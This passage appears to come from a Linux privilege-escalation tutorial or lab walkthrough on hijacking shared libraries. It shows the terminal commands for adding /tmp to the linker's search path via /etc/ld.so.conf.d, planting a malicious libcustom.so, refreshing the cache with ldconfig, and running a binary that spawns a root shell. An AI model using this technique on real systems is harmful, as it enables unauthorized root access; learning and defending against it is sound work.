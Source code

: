 Create a custom configuration file that points to the `/tmp` directory, which is a directory that user-privileged users have write permissions on:

```bash
user@pwn:~/so-files/evil$ sudo vim /etc/ld.so.conf.d/shouldnt_be_here.conf
user@pwn:~/so-files/evil$ cat /etc/ld.so.conf.d/shouldnt_be_here.conf
/tmp
```

Since we have writable permissions in the `/tmp` directory, we can place or write our malicious shared object there:

```bash
user@pwn:~/so-files/evil$ cp libcustom.so /tmp
user@pwn:~/so-files/evil$ ls -l /tmp/libcustom.so
-rwxrwxr-x 1 user user 16360 Dec 10 12:38 /tmp/libcustom.so
user@pwn:~/so-files/evil$ 
```

We now need to use **ldconfig** to update the linker’s cache so that it will be aware of this new evil library. The cache can be updated with the `ldconfig` command.

`ldd` output **BEFORE** executing `ldconfig`:

```bash
user@pwn:~/so-files/evil$ ldd /usr/bin/myexec
	linux-vdso.so.1 (0x00007ffc00ff9000)
	libcustom.so => /lib/libcustom.so (0x00007f7b7e24d000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7b7e05b000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f7b7e268000)
user@pwn:~/so-files/evil$ 
```

`ldd` output **AFTER** executing `ldconfig`:

```bash
user@pwn:~/so-files/evil$ sudo /usr/sbin/ldconfig
user@pwn:~/so-files/evil$ ldd /usr/bin/myexec
	linux-vdso.so.1 (0x00007fff9b6cd000)
	libcustom.so => /tmp/libcustom.so (0x00007f63a510f000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f63a4f1d000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f63a512a000)
user@pwn:~/so-files/evil$
```

Now we execute the binary:

```bash
user@pwn:~/so-files/evil$ /usr/bin/myexec
Message from myexec.c!
I'm the bad library!
I'm trying to spawn a root shell...
Check your shell!
root@pwn:~/so-files/evil# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),132(lxd),133(sambashare),1000 (user)
root@pwn:~/so-files/evil# whoami
root
root@pwn:~/so-files/evil# 
```
